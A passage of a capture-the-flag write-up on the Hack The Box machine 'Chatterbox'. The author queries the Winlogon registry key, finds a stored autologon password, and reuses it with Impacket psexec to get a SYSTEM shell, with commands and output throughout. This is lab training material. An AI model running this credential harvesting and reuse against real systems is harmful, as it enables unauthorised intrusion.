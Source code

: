 ```
c:\Users\Alfred>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AutoLogonChecked

```
We found some credentials, we should add those to our notes.
- `Alfred:Welcome1!`

## Privilege escalation
We can try to reuse the password with administrator. Since port 445 was open we can try to use psexec.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Chatterbox]
└─$ psexec.py administrator:'Welcome1!'@$ip
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.129.27.60.....
[*] Found writable share ADMIN$
[*] Uploading file kvgkikOO.exe
[*] Opening SVCManager on 10.129.27.60.....
[*] Creating service cryl on 10.129.27.60.....
[*] Starting service cryl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname
Chatterbox

C:\Windows\system32>ipconfig
 
Windows IP Configuration
```
